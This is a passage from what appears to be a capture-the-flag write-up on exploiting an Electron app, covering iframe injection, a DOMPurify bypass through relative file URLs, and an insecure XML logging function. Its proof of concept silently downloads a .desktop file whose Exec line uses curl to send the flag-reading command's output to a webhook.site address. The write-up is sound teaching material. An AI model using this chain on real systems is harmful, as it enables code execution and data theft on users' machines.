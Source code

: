 ### Note
At this point, you might think that using iframe injection to download file and creating another iframe which points to that file will solve challenge, but there is an issue. `will-download` is only triggered from mainWindow. So, we can't solve the challenge in this way

### Including Local Files in Iframe
What we can do is, somehow create html file (lets assume file:///test.html) in the victim's system and load it in the iframe. 

But there is an issue DOMPurify doesn't allow file protocol in anchor tags. This is not an issue because we can create anchor tag with relative url and browser adds absolute url based on `location`. If location is `file:///dir/dir/app.html` then `<a href=/test.html>` will be converted to `<a href=file:///test.html>`

Doing so, we can modify DOM of mainWindow because the origins are same. With mainWindow DOM modification, we can trigger `will-download`. 
POC: Triggering `will-download` and download the file without interaction

```js
a = top.document.createElement('a');
    a.download = "test.desktop";
    a.href = "data:,[Desktop Entry]\nExec=curl https://webhook.site/ea4a966b-3574-4d6a-a8d8-7/?a=`/app/readflag`\nType=Application";
    a.click();
```

Now the final piece is to create html file in the victim's system

### Insecure Logging
There is a logging mechanism, which stores given message in an xml file.

```js
const writeLog = (level, msg) => {
  let data;

  try {
    if (fs.existsSync(logFile)) {
      data = fs.readFileSync(logFile, "utf8").split("\n");
      data.splice(
        data.length - 1,
        0,
        `\t<${level}>[${new Date().toISOString()}] ${msg}</${level}>`
      );
    } else {
      data = [
        '<?xml version="1.0" encoding="UTF-8" standalone="yes"?>',
        "<logs>",
        `\t<${level}>[${new Date().toISOString()}] ${msg}</${level}>`,
        "</logs>",
      ];
    }
    fs.writeFileSync(logFile, data.join("\n"), {
      flag: "w",
    });
  } catch (e) {
    console.log(e);
  }
};

```
